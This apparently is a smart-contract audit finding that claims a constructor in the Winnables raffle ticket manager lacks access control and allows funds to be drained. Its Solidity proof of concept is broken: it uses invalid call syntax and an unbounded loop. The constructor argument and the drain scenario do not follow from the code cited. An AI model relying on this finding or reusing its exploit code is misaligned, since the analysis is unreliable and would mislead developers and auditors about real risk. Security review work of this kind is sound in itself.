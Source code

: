 Keen Cloth Crab

High

# External coordinaton can drain funds

### Summary

Funds draining is possible

### Root Cause

Lack of Access Control (Lines: 43-51, Input Values: VRF_COORDINATOR, SUBSCRIPTION_ID, KEY_HASH, TICKETS_CONTRACT)

Impact: If the constructor is called with invalid or malicious input values for these parameters, it could result in contract misuse or failure.
Scenarios: An attacker could potentially deploy a different contract that interacts incorrectly with the VRF Coordinator, Chainlink VRF subscription, or Ticket Collection contracts, leading to unintended consequences.
### 

Link https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L43

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Deploy a malicious contract to abuse the VFR_COORDINATOR address
2. Call the function fundSubscription repeatedly

### Impact

A contract fund draining can be performed

### PoC

```solidity
contract MaliciousContract {
    VRFCoordinatorV2BetterMock public vrfCoordinator;

    constructor(address _vrfCoordinator) public {
        vrfCoordinator = VRFCoordinatorV2BetterMock(_vrfCoordinator);
    }

    function fundSubscriptions() external {
        for (uint64 i = 0; ; i++) {
            uint256 requestId = vrfCoordinator.requestRandomWords(keccak256(""), i, 1, 21000, 32);
            vrfCoordinator.fundSubscription({value: 1 ether}); // fund the subscription with some value
        }
    }
}
```

### Mitigation

 Implement access control mechanisms to limit who can call the constructor and ensure that only trusted parties have this privilege.